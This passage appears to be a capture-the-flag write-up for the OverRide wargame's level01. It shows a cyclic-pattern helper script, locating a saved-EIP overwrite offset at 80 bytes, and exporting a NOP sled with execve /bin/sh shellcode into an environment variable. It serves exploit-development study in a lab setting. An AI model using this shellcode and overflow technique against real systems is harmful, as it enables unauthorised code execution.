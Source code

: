 ```python=
        sys.exit(0)

    if sys.argv[1].isdigit():
        try:
            pat = pattern_gen(int(sys.argv[1]))
            try:
                clipboard.copy(pat)
                print("Pattern copied to clipboard: \n")
            except NameError:
                pass

            print(pat)

        except MaxLengthException as e:
            print(e)
    else:
        try:
            found = pattern_search(sys.argv[1])
            print(
                "Pattern {0} first occurrence at "
                "position {1} in pattern.".format(sys.argv[1], found)
            )
        except WasNotFoundException as e:
            print(e)
            sys.exit(1)
        except (ValueError, TypeError):
            print("Unable to convert hex input for searching. Invalid hex?")
            sys.exit(1)
```
I generated a pattern with the following output and I tried running it in the program. As you can see , the saved EIP for changed after the fgets call.
```
level01@OverRide:/tmp$ python pattern.py 100
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
```

![image](https://hackmd.io/_uploads/S1dLaEwIa.png)

I used the same program to find the position of the offset, and it is at 80 bytes.
```
level01@OverRide:~$ python /tmp/pattern.py 6Ac7
Pattern 6Ac7 first occurrence at position 80 in pattern.
level01@OverRide:~$
```

I used a shellcode from the site `https://shell-storm.org/shellcode/index.html` and I generated a payload. I also put the shellcode in the environment variable so that it can be jumped to by the saved EIP.

I saved the shellcode in the env like so ;
```
 export SHELLCODE=`python -c "print '\x90' * 100 + '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'"`
 ```
